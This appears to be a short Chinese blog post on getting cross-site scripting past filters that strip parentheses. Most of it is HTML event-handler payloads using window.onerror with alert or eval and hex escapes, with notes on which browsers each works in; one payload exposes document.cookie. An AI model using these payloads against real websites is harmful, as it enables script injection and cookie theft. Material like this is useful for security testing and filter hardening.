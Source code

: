 ﻿title: XSS绕过()检查
date: 2014-12-17 16:09:34
tags: xss
categories: web安全
---

前两天刚刚提交了一个xss漏洞注册了个乌云帐号，激动了好几个小时。感觉终于入了门了，这几个月的书没白看。
对于那些过滤了()的情况，可以用下面的payload来试一下，亲测最新chrome firefox IE：
``` html
<!-- IE work -->
<!-- chrome unCaught -->
<!-- firefox unCauht exception -->
<a onmouseover="javascript:window.onerror=alert;throw document.cookie">xxx</a>
<!-- <img src=x onerror="javascript:window.onerror=alert;throw 1"> -->

<!-- chrome work -->
<!-- IE not work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'=alert\x28"xss"\x29';>xxxxx</a>

<!-- chrome not work -->
<!-- IE work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'alert\x28"xss"\x29';>xxxxxxx</a>
```

还有一种是如果能够控制URL属性内容，可以使用data协议来绕过()的检查。
